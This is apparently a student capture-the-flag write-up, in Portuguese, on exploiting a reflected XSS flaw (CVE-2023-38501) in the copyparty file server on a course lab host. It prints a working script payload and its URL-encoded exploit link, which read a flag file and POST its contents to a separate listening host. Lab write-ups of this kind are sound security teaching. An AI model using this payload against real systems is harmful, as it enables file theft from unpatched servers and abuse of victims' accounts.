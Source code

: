 # CTF Semana #7 (XSS)

## Tarefas

> Começamos por explorar o servidor, navegando como um utilizador normal, e rapidamente reparamos num ficheiro ***flag.txt***. Ao abrir este percebemos que não conseguiamos aceder diretamente à flag secreta, pois esta enconta-se protegida e será necessário a execução de um script de JavaScript para conseguirmos ter acesso a esta.

![flag.txt](CTF7/flagtxt.png)

> Decidimos pesquisar sobre este problema, na esperança de encontrar vulnerabilidades documentadas que se pudessem aplicar e ser exporadas neste servidor. Neste sentido encontramos o *CVE-2023-38501*:
>> "copyparty is file server software. Prior to version 1.8.7, the application contains a reflected cross-site scripting via URL-parameter `?k304=...` and `?setck=...`. The worst-case outcome of this is being able to move or delete existing files on the server, or upload new files, using the account of the person who clicks the malicious link."


> Assim, ajustámos o código para executar o exploit. O nosso objetivo será correr o seguinte script:

```
http://ctf-fsi.fe.up.pt:5007/?k304=y

<script>
     fetch('/flag.txt')
         .then(r => r.text())
         .then(flag => fetch('http://[::]:8000', { method: 'POST', body: flag }));
</script>
```

> Codificando este código de forma a obter um URL para utilizarmos, ficamos com o seguinte URL: 
http://ctf-fsi.fe.up.pt:5007/?k304=y%0D%0A%0D%0A%3Cscript%3Efetch(%27%2Fflag.txt%27)%0A%20%20.then(r%20%3D%3E%20r.text())%0A%20%20.then(flag%20%3D%3E%20fetch(%27http%3A%2F%2F%5B%3A%3A%5D%3A8000%27%2C%20%7B%20method%3A%20%27POST%27%2C%20body%3A%20flag%20%7D))%3C%2Fscript%3E

> Inserindo este URL encontramos a nossa flag, ao verificar o tráfego de rede usando Developer Tools.

![flag encontrada](CTF7/flag.png)

> Neste desafio, o tipo de vulnerabilidade de XSS que nos permitiu aceder à flag foi Reflected XSS. Esta vulnerabilidade ocorre quando os dados inseridos pelo utilizador, como parâmetros na URL ou campos de input, são imediatamente refletidos na resposta do servidor sem a devida validação. Neste caso, conseguimos injetar código JavaScript malicioso que foi executado no contexto da página, permitindo realizar um fetch ao *flag.txt* e obter o seu conteúdo.

